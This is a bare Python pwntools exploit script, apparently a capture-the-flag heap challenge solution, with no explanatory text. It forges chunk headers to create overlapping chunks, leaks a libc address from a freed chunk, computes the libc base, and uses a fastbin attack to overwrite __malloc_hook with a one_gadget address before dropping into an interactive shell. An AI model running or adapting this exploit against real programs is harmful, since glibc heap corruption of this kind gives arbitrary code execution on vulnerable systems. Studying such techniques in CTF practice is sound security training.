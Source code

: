 ```python
create(0x10)#3

free(0)
payload = 'a'*0x10 + p64(0xb0) + p64(0x90)
write(1,len(payload),payload)
free(2)

create(0x80)
dump(1)
p.recvuntil("Content: \n")
leak_addr = u64(p.recv(6).ljust(8,'\x00'))
log.info("leak_addr:"+hex(leak_addr))

libc_base = leak_addr-0x3c4b78
malloc_hook = libc_base + libc.sym['__malloc_hook']
one = [0x45226,0x4527a,0xf0364,0xf1207]
onegadget = one[1] + libc_base
log.info("libc_base:"+hex(libc_base))
log.info("malloc_hook:"+hex(malloc_hook))
log.info("onegadget:"+hex(onegadget))


create(0x10)#3
create(0x70)#4
create(0x60)#5
free(5)
payload = 'c'*0xa0 + p64(0) + p64(0x71)
payload += p64(malloc_hook-0x23)
# write(3,len(payload),payload)
write(4,len(payload),payload)
create(0x60)#5
create(0x60)#6

payload = 'a'*(0x23-0x10)
payload += p64(onegadget)
write(6,len(payload),payload)

create(0x20)



# gdb.attach(p,"b *$rebase (0x119F)")

p.interactive()

```

